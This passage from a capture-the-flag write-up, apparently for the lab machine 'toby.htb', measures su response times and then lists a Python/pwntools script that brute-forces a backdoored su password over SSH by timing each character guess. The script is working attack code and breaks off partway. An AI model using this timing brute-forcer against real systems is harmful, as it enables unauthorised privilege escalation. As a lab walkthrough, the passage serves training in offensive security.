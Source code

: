 ```py
print(f'Min is: {min(avg)}')
```

Running the script we get an average of 1.06 seconds with a deviation to that of about 0.15 seconds.

```
$ python subrute.py
[+] Connecting to toby.htb on port 22: Done
[*] jack@toby.htb:
    Distro    Ubuntu 20.04
    OS:       linux
    Arch:     amd64
    Version:  5.4.0
    ASLR:     Enabled
[+] Starting remote process bytearray(b'su') on toby.htb: pid 349842
[*] Stopped remote process 'su' on toby.htb (pid 349842)
...[snip]...
[+] Starting remote process bytearray(b'su') on toby.htb: pid 349977
[*] Stopped remote process 'su' on toby.htb (pid 349977)
Avergage is 1.0608468174934387
Max is: 1.0741736888885498
Min is: 1.049938678741455
```

With this information we can now build our su bruteforcer. As charspace we take all printable characters. The length will be padded to 10 characters because there is a check for the passwords to be the same length and we know the `/etc/.bd` file contains 10 bytes. Now we measure the time for each attempt and when the time is 0.1 seconds longer than a bit under the lower boundary we probably have a valid letter. We also add another time constraint to catch possible total outliers in the other direction.

`subrute.py`
```py
from pwn import *
import string
import time

context.log_level = 'ERROR'

charspace = string.printable[:-6]
password  = ""
avg = []

s = ssh('jack', 'toby.htb', keyfile='./id_rsa')
count = 0

while True:

    for c in charspace:
        count += 1
        tmppw = password + c + '-' * (9 - len(password))
        print(f'Progress: {tmppw} || Attempts: {count}', end='\r', flush=True)
        io = s.process('su')
        io.recvuntil(b'Password: ')

        start = time.time()

        io.sendline(tmppw.encode())
        io.recvline()
        io.recvline()

        diff = time.time() - start

        io.close()
```